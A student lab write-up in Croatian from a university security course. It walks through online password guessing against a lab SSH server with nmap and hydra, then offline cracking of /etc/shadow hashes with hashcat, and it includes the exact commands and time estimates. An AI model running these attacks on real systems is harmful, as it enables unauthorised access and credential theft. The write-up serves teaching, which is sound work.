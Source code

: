 # Sigurnost računala i podataka (Lab 5)

## **Online and Offline Password Guessing Attacks**

### **Online Password Guessing**

Otvaramo bash shell i pingamo lab server da vidimo jesmo li na istoj lokalnoj mreži.

```python
ping a507-server.local
```

Upoznajemo se s naredbom *nmap.* Određujemo range ip adresa koristeći:

```python
nmap -v 10.0.15.0/28
```

S adrese [http://a507-server.local/](http://a507-server.local/) na kojoj su se nalazili docker kontejneri moje grupe, pronalazim svoj kontejner. Pomoću ssh spajam se na isti.

```python
ssh tomic_klara_bruna@10.0.15.6
```

Potom treba unijeti lozinku. Nakon nekoliko pokušaja upisivanja pogrešne lozinke, zaključujemo da sustav nema rate limit i da je savršen za online napad.

Znamo da je lozinka sastavljena od 4 do 6 lowercase engleskih slova abecede kojih ima 26, što znači da postoji:

26^4+26^5+26^6 kombinacija

suma od 4 do 6 = 26^4(26^2+26+1) cca = 26^4*26^2 = 26^6 cca = 2^29

Za pokušaj brute force-anja lozinke koristimo alat *hydra*.

```python
hydra -l tomic_klara_bruna -x 4:6:a 10.0.15.9 -V -t 4 ssh
```

[STATUS] 64.00 tries/min, 64 tries in 00:01h, 321254064 to do in 83659:55h, 4 active - 64 pokušaja po minuti - 2^6

2^29/2^6 = 2^23 minuta potrebno za probijanje šifre

365*24*60 cca = 2^8*2^5*2^6 = 2^19 minuta po godini

2^23/2^19 = 2^4 = cca 16 godina = predugo potrebno vrijeme da bi se isplatilo čekati.

Stoga, koristimo predefinirane dictionary-ije. Dohvaćamo ih sa servera.

```python
wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g5/
```

Hydri se proslijeđuje dictionary.

```python
hydra -l tomic_klara_bruna -P dictionary/g5/dictionary_online.txt 10.0.15.9 -V -t 4 ssh
```

Dictionary ima nešto više od 850 lozinki, a prosječno treba proći polovicu lozinki da bi se pronašla prava, iako je u mom slučaju našlo pravu lozinku tek nakon 95% isprobanih lozinki iz dictionary-ija. Kad smo pronašli ispravnu lozinku dobili smo pristup kontejneru i s lokalnog se računala spojili na remote računalo.

### **Offline Password Guessing**

Dobili smo pristup remote računalu i želimo pronaći lozinke nekih drugih korisnika. 

Prvo smo pronašli folder unutar kojeg se nalaze hashirane lozinke.

```python
sudo /etc/shadow
```

Kopiramo hash vrijednost nekog korisnika u lokalni file imena “hash.txt”.

Koristimo naredbu hashcat za napad.

```python
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
```

Opet zaključujemo da je potrebno previše vremena za brute-force lozinke i koristimo predefinirani dictionary.

Drugi napad:

```python
hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10
```

Kad hashcat pronađe lozinku možemo se uspješno povezati na remote računalo kao korisnik čiju smo lozinku probili.
